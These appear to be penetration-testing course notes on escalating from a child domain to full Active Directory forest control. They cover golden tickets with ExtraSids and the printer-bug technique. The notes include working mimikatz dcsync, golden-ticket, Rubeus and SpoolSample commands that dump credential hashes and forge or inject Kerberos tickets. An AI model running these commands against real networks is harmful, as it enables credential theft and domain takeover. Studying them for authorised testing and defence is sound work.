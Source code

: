 ### Owning the Forest with Extra SIDs
The user's logon and authorization information is stored within a structure called [_KERB_VALIDATION_INFO_](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/69e86ccc-85e3-41b9-b514-7d969cd0ed73?redirectedfrom=MSDN) inside the TGT.
When we craft a golden ticket, we create a TGT with our desired group membership.
The _ExtraSids_ field within the KERB_VALIDATION_INFO structure includes SIDs that originate in a foreign domain and show membership in a trusted domain.

ExtraSids can be used during Active Directory domain migrations to grant access from one domain to another.

The technical implementation of Kerberos authentication across domains depends on the _trust key_. Since Domain B cannot know the password hash of Domain A, it has no way of decrypting a TGT sent from Domain A to Domain B.
A shared secret, created when the trust is configured, solves this.

When the domain trust is established, a new computer account with the name of the trusted domain is also created. In prod.corp1.com, the computer account is called: 
_corp1$_,
which is also referred to as the trust account.
The shared secret is the password hash of _corp1$_.

For a bi-directional trust like that of parent and child domains, both prod.corp1.com and corp1.com create the trust account.
The name of the account is always the same as the trusted domain, so inside corp1.com it is called:
prod$
but both, 
prod$ and,
corp$
have the same password hash

We can obtain the NTLM hash of the trust account from the domain controller with mimikatz with:
```mimikatz
lsadump::dcsync /domain:prod.corp1.com /user:corp1$
```

If a user in prod.corp1.com wants to access a service in corp1.com, the domain controller in prod.corp1.com will create a TGT for corp1.com and indicate that it's a referral to a TGS. This TGT is not signed by the _krbtgt_ password hash but instead with the trust key.

However, If we compromise the _krbtgt_ account password of our current domain, we can craft a golden ticket that contains an ExtraSid with group membership of Enterprise Admins.

We can craft the golden ticket with the following command:
```Powershell
kerberos::golden /user:h4x /domain:prod.corp1.com /sid:S-1-5-21-3776646582-2086779273-4091361643 /krbtgt:4b6af2bf64714682eeef64f516a08949 /sids:S-1-5-21-1095350385-1831131555-2412080359-519 /ptt
```

### Owning the Forest with Printers
We can reuse the printer bug to directly target a domain controller in the forest root domain and instantly compromise the entire forest from a single server.

This technique does not require Domain Admin privileges.
However, if we have Domain Admin privileges and no servers with unconstrained delegation exist in our current domain, we can create one ourselves by modifying the configuration of one of the servers.

 We will be opening an administrative command prompt and then use Rubeus to monitor for new tickets from the root domain controller machine account:
 ```Powershell
 Rubeus.exe monitor /interval:5 /filteruser:RDC01$
 ```

we'll switch back to our PowerShell prompt and launch SpoolSample to force the print change notification from rdc01:
```Powershell
.\SpoolSample.exe rdc01.corp1.com appsrv01.prod.corp1.com
```

With the ticket obtained, we can use Rubeus to inject it into memory:
```Powershell
Rubeus.exe ptt /ticket:doIE9DCCBPCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+...
```

The root domain controller computer account is not a local administrator on rdc01, so we cannot directly obtain code execution. However, a domain controller computer account has the access right to perform AD replication.
Thus, we can perform a dcsync attack:
```mimikatz
lsadump::dcsync /domain:corp1.com /user:corp1\administrator
```

